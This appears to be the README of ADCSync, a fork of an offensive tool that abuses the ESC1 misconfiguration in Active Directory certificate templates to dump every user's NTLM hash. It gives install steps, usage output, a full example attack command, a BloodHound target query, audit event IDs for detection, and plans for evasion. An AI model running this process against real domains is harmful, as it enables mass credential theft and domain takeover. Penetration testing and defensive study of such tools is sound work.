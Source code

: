 # ADCSsync

This is a tool I whipped up together quickly to DCSync utilizing ESC1. It is quite slow but otherwise an effective means of performing a makeshift DCSync attack without utilizing [DRSUAPI](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or [Volume Shadow Copy](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#volume-shadow-copy). 

This is the first version of the tool and essentially just automates the process of running Certipy against every user in a domain. It still needs a lot of work and I plan on adding more features in the future for authentication methods and automating the process of finding a vulnerable template.

## Fork Update

This fork supports proxychains, both bloodhound formats such as raw users.json from SharpHound.exe or manually exported JSON from the old BloodHound.
It will also skip accounts that it already got hashes from and resume where you left off if you get disconnected for whatever reason during runtime.
Various other nice to haves.
There are multiple scripts, adcsync.py is single-threaded. The ADCSync_multi_.py files are all multi-threaded with 4 workers by default using Python's ThreadPoolExecutor.
This also supports the -sid flag in Certipy which is now required for ESC1.
You can choose which users you want to target. Export whatever custom BloodHound neo4j query results to a JSON file that contains the desired accounts.
For example:

```sql
MATCH p = (d:Domain {name: "AD.CORP.LOCAL"})-[r:Contains*1..]->(u:User) WHERE NOT u.name starts with 'KRBTGT' RETURN u
```

## Introduction

ADCSync uses the ESC1 exploit to dump NTLM hashes from user accounts in an Active Directory environment. The tool will first grab every user and domain in the Bloodhound dump file passed in. Then it will use Certipy to make a request for each user and store their PFX file in the certificate directory. Finally, it will use Certipy to authenticate with the certificate and retrieve the NT hash for each user. This process is quite slow and can take a while to complete but offers an alternative way to dump NTLM hashes. 


## Installation

```
git clone https://github.com/mr-pmillz/ADCSync.git
cd ADCSync
virtualenv -p python3 venv
source venv/bin/activate
python3 -m pip install -r requirements.txt
```

## Usage

To use this tool we need the following things:

1. Valid Domain Credentials
2. A user list from a bloodhound dump that will be passed in.
3. A template vulnerable to ESC1 (Found with Certipy find)


```shell
# python3 ADCSync_multi_log_full_with_retry.py --help

usage: ADCSync_multi_log_full_with_retry.py [-h] -f FILE -o OUTPUT -ca-name CA_NAME
                                            -dc-ip DC_IP -dc-fqdn DC_FQDN -u USER
                                            -p PASSWORD -template TEMPLATE -target TARGET
                                            [-t THREADS] [-debug] [-proxychains]

Retrieve NTLM hashes via ADCS ESC1 technique.

options:
  -h, --help            show this help message and exit
  -f, --file FILE       Input User List JSON file from Bloodhound
  -o, --output OUTPUT   NTLM Hash Output file
  -ca-name CA_NAME      Certificate Authority
  -dc-ip DC_IP          IP Address of Domain Controller
  -dc-fqdn DC_FQDN      FQDN of Domain Controller
  -u, --user USER       Username
  -p, --password PASSWORD
                        Password
  -template TEMPLATE    Template Name vulnerable to ESC1
  -target TARGET        CA FQDN
  -t, --threads THREADS
                        Number of threads to use. (default=4)
  -debug                Show verbose debugging information
  -proxychains          Use proxychains4
```

Example command:

```shell
python3 ADCSync_multi_log_full_with_retry.py -f all-ad.corp.local-users.json \
-o dcsync.txt \
-ca-name FOO-CA \
-dc-ip 10.10.10.10 \
-dc-fqdn cool-dc1.ad.corp.local \
-u 'coolbeans@ad.corp.local' \
-p 'PASSWORDHERE' \
-template VULN-ESC1-TEMPLATE-NAME \
-target CA-FQDN.ad.corp.local \
-proxychains \
-debug
```

## Detection

By default, ADCS does not monitor/audit the following event logs.

* Event ID 4898: This event is generated every time a certificate template is loaded during enrollment. It records - in detail - the properties and security descriptor of the certificate template.
* Event ID 4887: This event is generated when a certificate is successfully issued to a user.
* Event ID 4888: This event is generated when a certificate request is denied.

In order to enable auditing for these events, you need to check all the following boxes in the ADCS Certificate Authority -> Properties -> Auditing configuration, and apply the settings.

![ADCS Certificate Authority Enable Monitoring](imgs/adcs-settings.png)

## TODO

* Support alternative authentication methods such as NTLM hashes and ccache files
* Automatically run "certipy find" to find and grab templates vulnerable to ESC1
* Add jitter and sleep options to avoid detection
* Add type validation for all variables


## Acknowledgements

* [puzzlepeaches](https://github.com/puzzlepeaches): Telling me to hurry up and write this
* [ly4k](https://github.com/ly4k/Certipy): For Certipy
* [WazeHell](https://github.com/WazeHell/vulnerable-AD): For the script to set up the vulnerable AD environment used for testing
